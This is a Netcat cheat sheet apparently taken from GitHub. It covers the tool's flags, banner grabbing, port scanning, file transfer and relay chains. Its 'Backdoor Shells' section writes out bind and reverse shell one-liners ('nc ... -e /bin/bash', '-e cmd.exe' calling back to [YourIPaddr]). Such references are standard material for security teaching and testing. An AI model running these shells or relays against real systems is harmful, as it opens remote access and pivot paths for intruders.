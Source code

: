 # Netcat

## Fundamentals

Both the client and listener take input from STDIN and send data received from the network to STDOUT

` Fundamental Netcat Client` 

Connect to an arbitrary port [port] at IP Address [TargetIPaddr]

    $ nc [TargetIPaddr] [port]

`Fundamental Netcat Listener`

Create a Netcat listener on arbitrary local port [LocalPort]

    $ nc –l -p [LocalPort]

------

## Command Flags

    $ nc [options] [TargetIPaddr] [port(s)]

The [TargetIPaddr] is simply the other side’s IP address or domain name. It is required in client mode of course (because we have to tell the client where to connect), and is optional in listen mode.

| **Option** | **Description** |
|------------|-----------------|
|`-l`| Listen mode (default is client mode) |
| `-L` | Listen harder (supported only on Windows version of Netcat). This option makes Netcat a persistent listener which starts listening again after a client disconnects |
| `-u` | UDP mode (default is TCP) |
| `-p` | Local port (In listen mode, this is port listened on. In client mode, this is source port for all packets sent) |
| `-e` | Program to execute after connection occurs, connecting STDIN and STDOUT to the program |
| `-n` | Don’t perform DNS lookups on names of machines on the other side |
| `-z` | Zero-I/O mode (Don’t send any data, just emit a packet without payload) |
| `-wN` | Timeout for connects, waits for N seconds after closure of STDIN. A Netcat client or listener with this option will wait for N seconds to make a connection. If the connection doesn’t happen in that time, Netcat stops running. |
| `-v` | Be verbose, printing out messages on Standard Error, such as when a connection occurs |
| `-vv` | Be very verbose, printing even more details on Standard Error |

------

## TCP Banner Grab

`Grab the banner of any TCP service running on an IP Address from Linux:`

    $ echo "" | nc –v –n –w1 [TargetIPaddr] [start_port]-[end_port]

Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address [TargetIPaddr] running verbosely (-v), not resolving names (-n), and waiting no more than 1 second for a connection to occur (-w1). Then send a blank string to the open port and print out any
banner received in response Add –r to randomize destination ports within the range.


Add –p [port] to specify a source port for the

------

## TCP Port Scanner

`Port scan an IP Address:`

    $ nc –v –n –z –w1 [TargetIPaddr] [start_port]-[end_port]

Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address [TargetIPaddr] running verbosely (-v on Linux, -
vv on Windows), not resolving names (-n), without sending any data (-z), and waiting no more than 1 second for a connection to occur (-w1)
The randomize ports (-r) switch can be used to choose port numbers randomly in the range.

------

## Backdoor Shells

`Listening backdoor shell on Linux:`

     $ nc –l –p [LocalPort] –e /bin/bash

`Listening backdoor shell on Windows:`

    C:\> nc –l –p [LocalPort] –e cmd.exe

` Create a shell on local port [LocalPort] that can then be accessed using a fundamental Netcat client Reverse backdoor shell on Linux:`

    $ nc [YourIPaddr] [port] –e /bin/bash

`Reverse backdoor shell on Windows:`

Create a reverse shell that will attempt to connect to [YourIPaddr] on local port [port]. This shell can then be captured using a fundamental nc listener.

    C:\> nc [YourIPaddr] [port] –e cmd.exe

-------

## File Transfer

`Push a file from client to listener`

Listen on [LocalPort], store results in [outfile]:

     $ nc –l -p [LocalPort] > [outfile]

Push [infile] to [TargetIPaddr] on [port]:

    $ nc –w3 [TargetIPaddr] [port] < [infile]

`Pull file from listener back to client`

Listen on [LocalPort], prep to push [infile]:

    $ nc –l -p [LocalPort] < [infile]

Connect to [TargetIPaddr] on [port] and retrieve [outfile]
    
    $ nc –w3 [TargetIPaddr] [port] > [outfile]

------

## Windows Relays

`Temporary Folder`

To start, enter a temporary directory where we will create .bat files:

    C:\> cd c:\temp

`Listener-to-Client Relay`

Create a relay that sends packets from the local port [LocalPort] to a Netcat Client connected to [TargetIPaddr] on port [port]:

    C:\> echo nc [TargetIPaddr] [port] > relay.bat
    C:\> nc –l –p [LocalPort] –e relay.bat

`Listener-to-Listener Relay`

Create a relay that will send packets from any connection on [LocalPort_1] to any connection on [LocalPort_2]:

    C:\> echo nc –l –p [LocalPort_2] > relay.bat
    C:\> nc –l –p [LocalPort_1] –e relay.bat

`Client-to-Client Relay`

Create a relay that will send packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2]:

    C:\> echo nc [NextHopIPaddr] [port2] > relay.bat
    C:\> nc [PreviousHopIPaddr] [port] –e relay.bat

------

## Linux Relays

` To start, create a FIFO (named pipe) called backpipe:`

    $ cd /tmp
    $ mknod backpipe p

` Listener-to-Client Relay:`

Create a relay that sends packets from the local port [LocalPort] to a Netcat client connected to [TargetIPaddr] on port [port]

     $ nc –l –p [LocalPort] 0<backpipe | nc [TargetIPaddr] [port] | tee backpipe

`Listener-to-Listener Relay:` 

Create a relay that sends packets from any connection on [LocalPort_1] to any connection on [LocalPort_2]

    $ nc –l –p [LocalPort_1] 0<backpipe | nc –l –p [LocalPort_2] | tee backpipe

`Client-to-Client Relay:`

Create a relay that sends packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat client connected to [NextHopIPaddr] on port [port2]

     $ nc [PreviousHopIPaddr] [port] 0<backpipe | nc [NextHopIPaddr] [port2] | tee backpipe

